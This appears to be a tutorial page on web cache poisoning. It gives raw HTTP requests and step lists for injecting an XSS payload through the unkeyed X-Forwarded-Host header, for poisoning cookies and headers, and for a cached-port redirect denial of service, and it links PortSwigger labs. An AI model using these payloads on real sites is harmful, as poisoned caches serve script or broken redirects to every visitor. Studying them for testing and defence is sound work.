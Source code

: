 ## **Detecting Cached Responses**

Add a cache buster parameter ```?cb=1``` in the request. Change the number in the parameter before new request, so that we don't get a cached response. 
<br>
<br>
To confirm caching behavior, inspect response headers and time differences:

- **`X-Cache: hit`** – Response served from the cache.  
- **`X-Cache: miss`** – Response fetched from the origin server and potentially cached.  
- **`X-Cache: refresh`** – Cache was outdated and revalidated.

Additionally, check `Cache-Control` headers for caching directives like `public` with a non-zero `max-age`.

---

# Exploiting cache design flaws

Websites are vulnerable to web cache poisoning if they handle unkeyed input in an unsafe way and allow the subsequent HTTP responses to be cached.

## Using web cache poisoning to deliver an XSS attack

Consider the following request and response:

```txt
GET /en?region=uk HTTP/1.1
Host: innocent-website.com
X-Forwarded-Host: innocent-website.co.uk

HTTP/1.1 200 OK
Cache-Control: public
<meta property="og:image" content="https://innocent-website.co.uk/cms/social.png" />
```

Here, the value of the X-Forwarded-Host header is being used to dynamically generate an Open Graph image URL, which is then reflected in the response. In this example, the cache can potentially be poisoned with a response containing a simple XSS payload:

```txt
GET /en?region=uk HTTP/1.1
Host: innocent-website.com
X-Forwarded-Host: a."><script>alert(1)</script>"

HTTP/1.1 200 OK
Cache-Control: public
<meta property="og:image" content="https://a."><script>alert(1)</script>"/cms/social.png" />
```

If this response was cached, all users who accessed /en?region=uk would be served this XSS payload.

## Web cache poisoning with an unkeyed header

Some websites use unkeyed headers to dynamically generate URLs for importing resources, such as externally hosted JavaScript files. In this case, if an attacker changes the value of the appropriate header to a domain that they control, they could potentially manipulate the URL to point to their own malicious JavaScript file instead. We can use ```X-Forwarded-Host:``` header for this.

**Step**
```
  1. Add a cache buster parameter ?cb=1 in the request.
  2. Add X-forwarded-Host header in request.
  3. Add a arbitrary domain (example.com) and send the request.
  4. If the example.com reflected in response page, we can now place our malicious link in it.
```
The malicius link contain with js file will trigger on all users browser if the site is vulnerable to the Web Cache Poisoning.
<br>
<br>
**Note:** Remove cache buster before delivering final attack.
## Web cache poisoning with an unkeyed cookie

Cookies are often used to dynamically generate content in a response. If the response of the request is cached, then all subsequent users who tried to access the poisoned page will get the malicious content. 

**Step**
```
  1. Add a cache buster parameter ?cb=1 in the request.
  2. Identify if any cookie value reflecting in the response.
  3. If the cookie value reflected in response page, we can now place our malicious javascript code in it or arbitrary string in it.
```
**Note:** If the cookie header generated in http response, we should add the header in http request and sent a new request. 

## Web cache poisoning with multiple headers

Identify any unkeyed header using param miner and craft a attack.
<br>
<br>
Poc: [Web cache poisoning with multiple headers](https://portswigger.net/web-security/web-cache-poisoning/exploiting-design-flaws/lab-web-cache-poisoning-with-multiple-headers)

## Exploiting responses that expose too much information

### Targeted web cache poisoning using an unknown header

```Vary``` header is used for sending device or client specific content. Using ```Vary``` header in responce, in some cases we can craft an attack.
<br>
<br>
Poc: [Targeted web cache poisoning using an unknown header](https://portswigger.net/web-security/web-cache-poisoning/exploiting-design-flaws/lab-web-cache-poisoning-targeted-using-an-unknown-header)

---

## Exploiting cache key implementation flaws

## Exploiting unkeyed port

Let's say that our hypothetical cache oracle is the target website's home page. This automatically redirects users to a region-specific page. It uses the Host header to dynamically generate the Location header in the response:

```
GET / HTTP/1.1
Host: vulnerable-website.com

HTTP/1.1 302 Moved Permanently
Location: https://vulnerable-website.com/en
Cache-Status: miss
```

To test whether the port is excluded from the cache key, we first need to request an ```arbitrary port``` and make sure that we receive a fresh response from the server that reflects this input:
```
GET / HTTP/1.1
Host: vulnerable-website.com:1337

HTTP/1.1 302 Moved Permanently
Location: https://vulnerable-website.com:1337/en
Cache-Status: miss
```
Next, we'll send another request, but this time we won't specify a port:

```
GET / HTTP/1.1
Host: vulnerable-website.com

HTTP/1.1 302 Moved Permanently
Location: https://vulnerable-website.com:1337/en
Cache-Status: hit
```
As you can see, we have been served our cached response even though the Host header in the request does not specify a port. This might enable you to construct a denial-of-service attack by simply adding an arbitrary port to the request. All users who browsed to the home page would be redirected to a dud port, effectively taking down the home page until the cache expired. This kind of attack can be escalated further if the website allows you to specify a non-numeric port. You could use this to inject an XSS payload, for example.
